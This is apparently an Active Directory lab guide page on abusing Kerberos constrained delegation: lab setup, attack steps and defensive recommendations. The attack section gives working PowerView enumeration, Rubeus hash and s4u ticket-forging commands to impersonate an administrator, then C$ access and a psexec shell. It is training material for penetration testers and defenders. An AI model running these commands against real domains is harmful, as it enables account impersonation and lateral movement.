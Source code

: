 ```yaml
---
description: >-
  If a user or computer has constrained delegation configured, it's possible to
  impersonate any domain user and authenticate to a service that the user
  account is trusted to delegate to. It is also poss
---
```


# Constrained Delegation

## Configuring

### Prerequisite&#x20;

User `sa_transfer` creation from:

{% content-ref url="../acl-abuses/forcechangepassword.md" %}
[forcechangepassword.md](../acl-abuses/forcechangepassword.md)
{% endcontent-ref %}

### Configuring

1. Login on `DC02` with the username `Administrator` and password `Welcome01!`.
2. Open PowerShell and execute the following command to set a SPN for the user sa\_transfer:

```
setspn -A HTTP/FILE01.amsterdam.bank.local amsterdam\sa_transfer
```

![](<../../../.gitbook/assets/image (55).png>)

3\. Open the "Active Directory Users and Computers" administration tool on `DC02`.

![](<../../../.gitbook/assets/image (37).png>)

4\. Open the "Users" directory and right click the `sa_transfer` user and select "Properties".

5\. Open the "Properties" tab and select "Trust this user for delegation to specified services only". Then click "Use any authentication protocol" and select "Add".

![](<../../../.gitbook/assets/image (60) (1).png>)

6\. Select "Users or Computers" and type `FILE01` and click "Check Names" and "OK".

![](<../../../.gitbook/assets/image (11) (2).png>)

7\. Select the "cifs" service and click on "OK". Click on "Apply" and "OK" and the delegation is configured.

![](<../../../.gitbook/assets/image (58) (1).png>)



## Attacking

### How it works

If a user or computer has constrained delegation configured, it's possible to impersonate any domain user and authenticate to a service that the user account is trusted to delegate to. It is also possible to create tickets for other services since they aren't checked.

### Tools

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

### Executing the attack

1. Login to `WS01` as Richard with the password `Sample123`.
2. Start PowerShell and download and execute an amsi and PowerView in memory:

![](<../../../.gitbook/assets/image (16) (1) (1).png>)

3\. Execute the following query to enumerate all users with constrained delegation and select the samaccountname and msds-allowedtodelegateto attributes.

```
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```

![](<../../../.gitbook/assets/image (73) (1).png>)

4\. The user `sa_transfer` can delegate access to `cifs\FILE01.amsterdam.bank.local`. To abuse this we need access to the user, luckily we could reset the password earlier.

{% content-ref url="../acl-abuses/forcechangepassword.md" %}
[forcechangepassword.md](../acl-abuses/forcechangepassword.md)
{% endcontent-ref %}

5\. First we need to calculate the hash of the user, for this we can use Rubeus, using the following command:

```
.\Rubeus.exe hash /password:'2i^t#fFpL' /user:sa_transfer /domain:amsterdam.bank.local
```

![](<../../../.gitbook/assets/image (76) (1) (1) (1).png>)

6\. The next step is too request a TGT and then request two service tickets for CIFS, HOST and RPCSS. So we can interact with the file system and psremoting for the fileserver. The easiest way to do this is using Rubeus.

```
.\Rubeus.exe s4u /user:sa_transfer /rc4:58A0D6C796769B84609E5F68C2213F96 /impersonateuser:administrator /domain:amsterdam.bank.local /msdsspn:cifs/FILE01.amsterdam.bank.local /altservice:CIFS,HOST,RPCSS /file01.amsterdam.bank.local /ptt
```

{% hint style="info" %}
* Possbible alt services:&#x20;
  * CIFS for directory browsing
  * HOST and RPCSS for WMI
  * HOST and HTTP for PowerShell Remoting/WINRM
  * LDAP for dcsync
* Another thing to keep in mind is that you can impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right.
{% endhint %}



![](<../../../.gitbook/assets/image (54) (1) (2).png>)

7\. When we list our tickets now we can see that we have three service tickets:

![](<../../../.gitbook/assets/image (48) (1).png>)

8\. Since we have a CIFS ticket we can list the `C` drive of the fileserver `FILE01`:

```
ls \\file01.amsterdam.bank.local\c$
```

![](<../../../.gitbook/assets/image (27) (1).png>)

9\. We are unable to use the RPC and HOST tickets for pssession since the target server doesn't have it enabled. We can get a shell with the CIFS ticket by using psexec from sysinternals:

```
.\psexec64.exe \\file01.amsterdam.bank.local cmd.exe
```

![](<../../../.gitbook/assets/image (75) (1) (1).png>)

## Defending

### Recommendations

* Tightly secure and monitor the user of AD objects with delegation set.
  * Set strong passwords and rotate them periodically.
  * Limit logons to systems.
  * Harden the systems these accounts are used.
* Add the flag "this account is sensitive and cannot be delegated"
* Add all high privileged accounts to the protected users group.

{% content-ref url="../../../defence/hardening/protected-users-group.md" %}
[protected-users-group.md](../../../defence/hardening/protected-users-group.md)
{% endcontent-ref %}

### Detection



## References

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

{% embed url="https://github.com/GhostPack/Rubeus" %}

{% embed url="https://docs.microsoft.com/en-us/sysinternals/downloads/psexec" %}
